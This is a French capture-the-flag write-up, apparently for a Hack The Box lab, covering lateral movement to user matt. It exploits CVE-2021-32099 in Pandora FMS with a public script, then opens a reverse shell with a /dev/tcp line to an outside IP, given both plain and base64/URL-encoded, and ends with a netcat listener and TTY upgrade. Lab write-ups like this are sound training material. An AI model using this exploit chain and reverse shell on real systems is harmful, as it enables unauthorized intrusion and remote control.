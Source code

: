 ## daniel -> matt

### Pandora CMS v7.0NG.742

On trouve un dossier "pandora_console" dans /var/www. On se rend compte dans /etc/host qu'il semble y a avoir un deuxieme site web sur 127.0.0.1:80. J'ai décidé de faire du port forwarding pour accéder au site web depuis mon navigateur sur le port 8888 de ma machine :
```bash
ssh daniel@10.10.11.136 -L 8888:127.0.0.1:80
```
On trouve alors une page de login **Pandora CMS v7.0NG.742**.

### CVE-2021-32099

Après quelque recherches, on trouve plusieurs CVE dont une injection SQL : **CVE-2021-32099**.

Elle nous permet de se connecter en tant qu'admin et de téléverser un fichier php nous permettant d'executer du code sur la machine en tant que l'utilisateur **matt**.

**Exploit** : https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/tree/master

J'ai pu utiliser un exploit déjà écrit, qui execute l'injection SQL et upload directement un fichier php pour nous. Il nous donne un shell non-interactif.

J'ai executé un reverse shell, que j'ai converti en base64 puis j'ai URL encoded le tout car je sais que le script python fait une requete GET sur le fichier php et passe mes commandes dans l'URL.
```bash
python3 sqlpwn.py -t 127.0.0.1:8888           
URL:  http://127.0.0.1:8888/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : lkgcnm6itdo17dmogbhc6733j1
[+] Sending Payload 
[+] Respose : 200
[+] Pwned :)
[+] If you want manual Control : http://127.0.0.1:8888/pandora_console/images/pwn.php?test=
CMD > bash -i >& /dev/tcp/10.10.14.8/1337 0>&1

CMD > echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC44LzEzMzcgMD4mMQ%3D%3D%20%7C%20base64%20-d%20%7C%20bash

--------------------------------------

$ nc -lnvp 1337                                 
matt@pandora:/var/www/pandora/pandora_console/images$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ges$ python3 -c 'import pty;pty.spawn("/bin/bash")'  
matt@pandora:/var/www/pandora/pandora_console/images$ export TERM=xterm
export TERM=xterm
matt@pandora:/var/www/pandora/pandora_console/images$ ^Z
[1]  + 27546 suspended  nc -lnvp 1337
$ stty raw -echo;fg   
[1]  + 27546 continued  nc -lnvp 1337
matt@pandora:/var/www/pandora/pandora_console/images$ whoami
matt
matt@pandora:/var/www/pandora/pandora_console/images$ cd /home/matt
matt@pandora:/home/matt$ cat user.txt
2251.....82e1
```
